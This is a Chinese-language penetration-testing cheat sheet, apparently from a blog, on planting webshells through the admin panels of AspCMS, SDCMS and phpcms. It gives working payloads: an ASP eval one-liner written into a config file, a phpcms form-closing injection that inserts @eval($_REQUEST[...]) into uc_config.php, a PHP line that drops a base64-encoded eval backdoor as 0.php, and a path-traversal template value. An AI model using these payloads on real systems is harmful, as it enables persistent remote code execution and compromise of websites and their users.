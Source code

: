 **1.插件管理，界面风格修改asp文件**

**2.扩展功能，数据库备份**

**3.配置插马**-
幻灯片设置

    #插马路径
    ./config/aspcms_config.asp
    #语句
    %><%Eval(Request(chr(112)))%><%
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629000833200.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## SD cms

**1.上传设置，添加脚本类型（大小写替换）-
2.界面，模板管理，点击sdcms\_index.asp，插入一句话到首页**

## phpcms

**1.界面，模板风格，详情列表，修改脚本格式文件**

**2.phpsso(没有这个界面的话调用js），系统设置，ucenter设置，插马**

    #插马位置
    ./phpsso_server/caches/configs/uc_config.php
    
        

    #先表单闭合
    name="data[uc_api','11');/*]
    #再插入代码
    */@eval($_REQUEST[TEST]);//
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001041526.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
连接：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001059573.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)**3.内容，专题，添加专题**

<

    ?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+'));?>
    #在根目录下生成0.php，密码cmd
    
        

添加专题1-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001213622.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
添加专题2-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001257449.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
扩展设置，专题模板。value值设置为：

    ../../../../html/special/test000/index
    